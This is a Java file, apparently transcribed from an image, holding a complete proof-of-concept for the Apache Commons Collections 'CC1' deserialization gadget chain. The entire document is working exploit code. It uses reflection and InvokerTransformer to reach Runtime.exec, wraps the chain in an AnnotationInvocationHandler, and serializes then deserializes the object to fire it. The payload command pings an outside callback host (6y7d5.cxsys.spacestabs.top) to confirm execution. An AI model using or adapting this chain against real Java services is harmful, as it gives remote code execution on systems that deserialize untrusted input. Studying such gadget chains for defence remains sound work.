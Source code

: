 ```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class CC1 {
    public static void main(String[] args) throws Exception {
        Class<?> clazz = Class.forName("java.lang.Runtime");
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(clazz),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[]{String.class},
                        new Object[]{"ping 6y7d5.cxsys.spacestabs.top"}
                )
        };
        Transformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object,Object> map = new HashMap<>();
        map.put("value","xxx");
        Map<Object,Object> transformedMap = TransformedMap.decorate(map,null,chainedTransformer);
        Class<?> clazzSink = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = clazzSink.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object instance = constructor.newInstance(Retention.class, transformedMap);
        serializeObject(instance);
        unSerializeObject("ser.bin");
    }

    public static void serializeObject(Object obj) throws Exception {
        ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        outputStream.writeObject(obj);
        outputStream.close();
    }

    public static Object unSerializeObject(String Filename) throws Exception {
        ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream(Filename));
        return inputStream.readObject();
    }
}
```
